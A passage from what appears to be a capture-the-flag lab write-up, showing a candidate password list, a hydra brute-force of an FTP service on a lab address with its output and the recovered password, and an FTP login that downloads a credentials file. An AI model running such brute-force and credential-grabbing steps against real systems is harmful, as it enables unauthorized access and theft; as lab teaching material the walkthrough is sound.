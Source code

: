   ```
  One of these is the password:
  Mou+56n%QK8sr
  1618B0AUshw1M
  A56IpIl%1s02u
  vTFbDzX9&Nmu?
  FfF~sfu^UQZmT
  8FF?iKO27b~V0
  ua4W~2-@y7dE$
  3j39aMQQ7xFXT
  [SNIP!]
  u6oY9?nHv84D&
  0iBp4W69Gr_Yf
  TS*%miyPsGV54
  C77O3FIy0c0sd
  O14xEhgg0Hxz1
  5dpv#Pr$wqH7F
  1G8Ucoce1+gS5
  0plnI%f0~Jw71
  ```

- Awesome! Copy the full list of passwords and brute force your way into FTP.

  ```
  hydra -l ftpuser -P pwlist.txt ftp://10.10.78.65
  Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-08 20:04:33
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
  [DATA] attacking ftp://10.10.78.65:21/
  [21][ftp] host: 10.10.78.65   login: ftpuser   password: 5iez1wGXKfPKQ
  1 of 1 target successfully completed, 1 valid password found
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-08 20:04:47
  ```

- Since we have credentials, we can login with FTP. There I found a file `Eli's_Creds.txt` and moved it to my Kali.

  ```
  ftp 10.10.78.65
  Connected to 10.10.78.65.
  220 (vsFTPd 3.0.2)
  Name (10.10.78.65:mauzware): ftpuser
  331 Please specify the password.
  Password: 
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> ls
  229 Entering Extended Passive Mode (|||20783|).
  150 Here comes the directory listing.
  -rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
  226 Directory send OK.
  ftp> pwd
  Remote directory: /
  ftp> get Eli's_Creds.txt
  local: Eli's_Creds.txt remote: Eli's_Creds.txt
  229 Entering Extended Passive Mode (|||11090|).
  150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
  100% |************************************************************************|   758        1.82 MiB/s    00:00 ETA
  226 Transfer complete.
  758 bytes received in 00:00 (14.04 KiB/s)
  ftp> 
  ```